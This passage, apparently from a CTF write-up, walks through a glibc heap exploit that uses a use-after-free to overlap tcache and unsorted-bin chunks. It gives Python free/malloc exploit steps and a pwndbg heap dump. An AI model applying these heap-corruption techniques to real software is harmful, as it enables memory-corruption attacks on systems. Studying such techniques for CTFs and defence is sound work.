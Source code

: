 ```
```

Notice that the two new `UAF` pointers are pointing **above** the `0x20` and `0x30` chunks. This is because the `unsorted bin` is pointing **at** the size header instead of right **under** the size header which is common practice for malloc chunks. 

Now, we can start fitting our two unsorted chunks in to having proper sizes such that our faked `per-thread cache` `chunk` contains valid `FWD` and `BCK` pointers.


Free `unsorted1` again (after just creating a second `fake chunk` with it) and the `d1` chunk allocated in the start to make an even larger unsorted bin. After that, we will carefully use `malloc` to shrink the `unsorted bin` entry such that the top of the unsorted bin is exactly where the `0x20` `t-cache entry` is, effectively creating a pointer to our `unsorted bin`:
```python
#########################################################
#       Fit the unsorted chunks to fit in the UAF       #
#########################################################

# Fit unsorted 1
free(unsorted1)
free(d1)

# Malloc using ONLY chunks not present in any t-cache to make it shrink the unsorted bin entry
malloc(0x38, b'X')
malloc(0x48, b'X')
malloc(0x38, b'X')
malloc(0x58, b'X')
```

The heap memory will now look like the following:
```
pwndbg> vis 90

[...]

0x5636363dba30	0x0000000000000000	0x0000000000000000	................
0x5636363dba40	0x0000000000000000	0x0000000000000021	........!.......
0x5636363dba50	0x0031204452415547	0x0000000000000000	GUARD 1.........
0x5636363dba60	0x0000000000000000	0x0000000000000041	........A.......
0x5636363dba70	0x00007f842effef58	0x00007f842effef30	X.......0.......
0x5636363dba80	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dba90	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbaa0	0x3131313131313131	0x0000000000000051	11111111Q.......
0x5636363dbab0	0x00007f842effed58	0x00007f842effed00	X...............
0x5636363dbac0	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbad0	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbae0	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbaf0	0x3131313131313131	0x0000000000000041	11111111A.......
0x5636363dbb00	0x00007f842effed58	0x00007f842effed00	X............... <-- tcachebins[0xe0][0/1]
0x5636363dbb10	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbb20	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbb30	0x3131313131313131	0x0000000000000061	11111111a.......
0x5636363dbb40	0x00007f842effed58	0x00007f842effed00	X...............
0x5636363dbb50	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbb60	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbb70	0x3131313131313131	0x3131313131313131	1111111111111111
0x5636363dbb80	0x3131313131313131	0x0000000000000021	11111111!.......
0x5636363dbb90	0x00000005636363db	0x0000000000000111	.ccc............ <-- tcachebins[0x20][0/1], unsortedbin[all][0]
0x5636363dbba0	0x00007f842effed00	0x00007f842effed00	................
0x5636363dbbb0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x5636363dbbc0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x5636363dbbd0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
```
